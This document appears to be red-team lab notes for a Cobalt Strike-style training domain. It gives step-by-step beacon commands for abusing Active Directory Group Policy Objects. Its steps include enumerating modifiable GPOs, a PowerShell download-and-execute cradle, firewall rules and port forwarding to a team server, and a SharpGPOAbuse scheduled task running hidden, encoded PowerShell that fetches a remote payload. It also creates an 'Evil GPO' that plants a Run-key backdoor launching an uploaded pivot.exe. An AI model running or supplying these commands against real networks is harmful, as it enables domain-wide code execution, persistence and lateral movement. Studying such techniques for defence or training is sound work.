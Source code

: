 # Group Policy Object (GPO)

## Modify existing GPO

1. Identify GPO where current principal has modify rights

        beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

2. Resolve GPOName, Path and SID of principal

        beacon> powerpick Get-DomainGPO -Identity "CN={AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

        beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

        beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}

3. Identify the domain OU where the above GPO applies

        beacon> powerpick Get-DomainOU -GPLink "{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}" | select distinguishedName

4. Identify the systems under the given OU

        beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

5. Setup a pivot listener (1234) on the beacon, and download & execute cradle pointing to pivot (80)

        PS> IEX ((new-object net.webclient).downloadstring("http://wkstn-2:8080/pivot"))

6. Enable inbound traffic on pivot listener (1234) and WebDrive by ports (8080) (requires system access)

        beacon> powerpick New-NetFirewallRule -DisplayName "Rule 1" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1234
        beacon> powerpick New-NetFirewallRule -DisplayName "Rule 2" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080

7. Setup port forwarding rule to accept the Payload Download request locally and forward to our team server 

        beacon> rportfwd 8080 127.0.0.1 80

8. Use sharpGPOAbuse to add the backdoor (scheduled task) for execution on targetted system

        beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "C:\Windows\System32\cmd.exe" --Arguments "/c powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwB3AGsAcwB0AG4ALQAyADoAOAAwADgAMAAvAHAAaQB2AG8AdAAiACkAKQA=" --GPOName "Vulnerable GPO"

## Create and Link new GPO

1. Check the rights to create a new GPO in Domain

        beacon> powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

2. Find the OU where any principal has "Write gPlink Privilege"

        beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

        beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
        DEV\Developers

3. Verify if RSAT module is installed for GPO abuse

        beacon> powerpick Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

4. Create a new GPO & configure it to execute attacker binary via Registry loaded from shared location

        beacon> powerpick New-GPO -Name "Evil GPO"

        beacon> powerpick Find-DomainShare -CheckShareAccess
        beacon> cd \\dc-2\software
        beacon> upload C:\Payloads\pivot.exe
        beacon> powerpick Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

5. Link newly created GPO with OU

        beacon> powerpick Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
